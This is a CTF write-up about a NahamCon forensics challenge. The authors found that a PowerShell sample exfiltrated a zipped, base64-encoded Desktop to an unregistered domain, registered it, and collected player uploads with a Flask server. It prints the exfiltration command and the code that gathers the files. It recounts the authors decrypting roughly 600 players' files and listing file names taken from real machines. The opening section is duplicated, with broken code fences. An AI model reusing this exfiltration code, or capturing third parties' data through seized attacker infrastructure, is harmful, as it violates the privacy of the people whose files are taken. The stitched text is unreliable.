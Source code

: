 # How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](2023/nahamcon/Forensics/IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

````ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```# How we hacked hundreds of CTF players

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](2023/nahamcon/Forensics/IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
````

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containg every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
![A dutch website checking to check if the domain is available for sale.](claimed.png) _A dutch website checking to check if the domain is available for sale._

## What now?

---

After we claiming the domain, we went ahead and setted up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python webserver would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

---

After the Nahamcon CTF ended, we went ahead and checked how many files we received:
![](results.png)

We reived a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are not from this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files are ending in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment, but in the VM supplied by the Nahamcon CTF.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organisers, on not on their own machine.

We absolutely loved the process we went through by making this.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch
